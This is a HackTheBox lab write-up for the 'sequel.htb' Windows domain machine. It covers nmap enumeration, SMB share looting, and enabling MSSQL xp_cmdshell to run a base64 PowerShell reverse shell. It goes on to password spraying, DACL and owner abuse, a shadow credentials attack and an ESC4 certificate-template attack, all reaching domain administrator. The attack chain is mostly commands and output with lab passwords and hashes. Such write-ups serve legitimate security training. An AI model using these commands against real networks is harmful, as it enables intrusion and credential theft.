### Enumeration
Let's start with a scan to all ports:
```sh
sudo nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.11.51 -oG allPorts
```


once it's finished, grep the ports and copy them to later scan them with nmap looking out for the versions of the services hosted.
```sh
 sudo nmap -sC -sV -p<ports> <ip> -oN targeted
```


Add the domains from the scan to your /etc/hosts file
```sh
10.10.11.51     DC01.sequel.htb sequel.htb
```

Well, taking a look at smb with smbclient using the credentials that HackTheBox gives us we can see the share names for this domain
```sh
smbclient -L 10.10.11.51 -U 'rose'
```


There's a share called Accounting Department, list the contents of it

```sh
smbclient //10.10.11.51/Accounting\ Department -U 'rose'
```
we can download the files hosted there
```sh
get accounts.xlsx
get accounting_2024.xlsx
```


You can see the contents of the accounts.xlsx file with https://jumpshare.com/viewer/xlsx




### User Flag

```sh
netexec mssql 10.10.11.51 -u sa -p <password> --local-auth -M mssql_priv
```
Now we've found another user (sa) to continue enumerating 



It's a sysadmin, so we can get a reverse shell with xp_cmdshell in mssql, login to it using impacket mssqlclient

```sh
mssqlclient.py sa@10.10.11.51
```

Enable xp_cmdshell with:
```
sp_configure 'show advanced options', 1;
RECONFIGURE;

sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

```
Now execute the powershell reverse shell encoded in base64 with this, you can use https://www.revshells.com/:
```
EXEC xp_cmdshell 'powershell -e [base64ReverseShell]'
```


Let's start enumerating this machine, we can see a SQL2019 folder



there's a file with credentials in ExpressAdv_ENU

```sh
cat sql-Configuration.INI
```
Create a list with all the users and passwords you've found to do a password spraying attack and find any reused passwords

```sh
netexec smb 10.10.11.51 -u users.txt -p passwords.txt --continue-on-success
```


ryan and sql_svc have the same password, so we can login to ryan using evilwinrm

```sh
evil-winrm -i 10.10.11.51 -u ryan -p <password>
```
Now you can get the user flag


### Root Flag
Using Bloodhound community edition we can find a path to Administrator using the credentials of ryan



Set the owner of the ca_svc account to ryan

```sh
impacket-owneredit -action write -new-owner ryan -target ca_svc sequel.htb/ryan:WqSZAF6CysDQbGb3

[*] Current owner information below
[*] - SID: S-1-5-21-548670397-972687484-3496335370-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=sequel,DC=htb
[*] OwnerSid modified successfully!

```

Grant Full Control Rights to ryan using DACL (Discretionary Access Control List) to escalate privileges

```sh
impacket-dacledit -action write -rights FullControl -principal ryan -target ca_svc sequel.htb/ryan:WqSZAF6CysDQbGb3
[*] DACL backed up to dacledit-20250330-161623.bak
[*] DACL modified successfully!

```

Shadow Credentials attack
```sh
certipy-ad shadow auto -u 'ryan@sequel.htb' -p 'WqSZAF6CysDQbGb3' -account ca_svc -dc-ip 10.10.11.51
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'ed99220f-857c-1616-06bc-e50d6900d173'
[*] Adding Key Credential with device ID 'ed99220f-857c-1616-06bc-e50d6900d173' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID 'ed99220f-857c-1616-06bc-e50d6900d173' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Using principal: ca_svc@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': 3b181b914e7a9d5508ea1e20bc2b7fce

```

Find a vulnerable template with the hash of the ca_svc account
```sh
certipy-ad find -u 'ca_svc@sequel.htb' -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -stdout -vulnerable
```


Now upload the certificate template
```sh
KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k -template DunderMifflinAuthentication -dc-ip 10.10.11.51 -target dc01.sequel.htb
```


Get the Admin Cert
```sh
certipy-ad req -u ca_svc -hashes '3b181b914e7a9d5508ea1e20bc2b7fce' -ca sequel-DC01-CA -target sequel.htb -dc-ip 10.10.11.51 -template DunderMifflinAuthentication -upn administrator@sequel.htb -ns 10.10.11.51 -dns 10.10.11.51 -debug

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'sequel.htb' at '10.10.11.51'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.11.51[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.11.51[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 22
[*] Got certificate with multiple identifications
    UPN: 'administrator@sequel.htb'
    DNS Host Name: '10.10.11.51'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator_10.pfx'
```
Now get the admin hash using the cert
```sh
certipy-ad auth -pfx administrator_10.pfx  -domain sequel.htb

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'administrator@sequel.htb'
    [1] DNS Host Name: '10.10.11.51'
> 0
[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': xxxxxx:xxxx
```

Login as Admin and you got the root flag
```sh
evil-winrm -i 10.10.11.51 -u "administrator" -H "xxxxxxx"
```


### Conclusion 
This machine covers topics like SMB shares leaks, MSSQL RCE, ESC4 Certificate Attack, Shadow Credentials Attack, weak ACLs and AD CS misconfigurations

<mark>Hope you enjoy it and Happy Hacking!</mark>

